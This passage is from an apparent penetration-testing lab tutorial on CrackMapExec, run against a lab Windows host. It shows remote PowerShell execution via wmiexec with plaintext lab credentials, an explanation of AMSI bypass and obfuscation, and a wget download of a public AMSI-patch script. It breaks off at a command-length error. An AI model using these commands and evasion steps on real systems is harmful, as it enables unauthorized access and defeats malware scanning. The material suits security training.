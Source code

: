 ### **PowerShell Command Execution via wmiexec**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' --exec-method wmiexec -X '$PSVersionTable' 

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command via wmiexec
SMB         10.129.204.133  445    MS01             Name                           Value
SMB         10.129.204.133  445    MS01             ----                           -----
SMB         10.129.204.133  445    MS01             PSVersion                      5.1.17763.2268
SMB         10.129.204.133  445    MS01             PSEdition                      Desktop
SMB         10.129.204.133  445    MS01             PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}
SMB         10.129.204.133  445    MS01             BuildVersion                   10.0.17763.2268
SMB         10.129.204.133  445    MS01             CLRVersion                     4.0.30319.42000
SMB         10.129.204.133  445    MS01             WSManStackVersion              3.0
SMB         10.129.204.133  445    MS01             PSRemotingProtocolVersion      2.3
SMB         10.129.204.133  445    MS01             SerializationVersion           1.1.0.1
```

When running PowerShell option `-X`, behind the scenes, CrackMapExec will do the following:

1. AMSI bypass
2. Obfuscate the payload
3. Execute the payload

### Running a Custom AMSI Bypass

These techniques may be detected when executing PowerShell. If we want to use a custom AMSI bypass payload, we can use the option `--amsi-bypass` followed by the path of the payload we want to use. Let's use, for example, the AMSI Bypass [Modified Amsi ScanBuffer Patch](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#modified-amsi-scanbuffer-patch). We will save it to a file and create a PowerShell script to load this AMSI Bypass in memory from a web server. Here are the steps:

1. Download the file with the "Modified Amsi ScanBuffer Patch".

### **Create a File with the "Modified Amsi ScanBuffer Patch"**

```shell-session
$ wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/shantanukhande-amsi.ps1 -q
```

If we try to execute the payload as is, it will fail because the command will exceed the maximum length of 8191 chars.

### **Command Exceeds the Maximum Length**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -X '$PSVersionTable' --amsi-bypass shantanukhande-amsi.ps1 

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
[-] Command exceeds maximum length of 8191 chars (was 3065628). exiting.


[*] Shutting down, please wait...
```
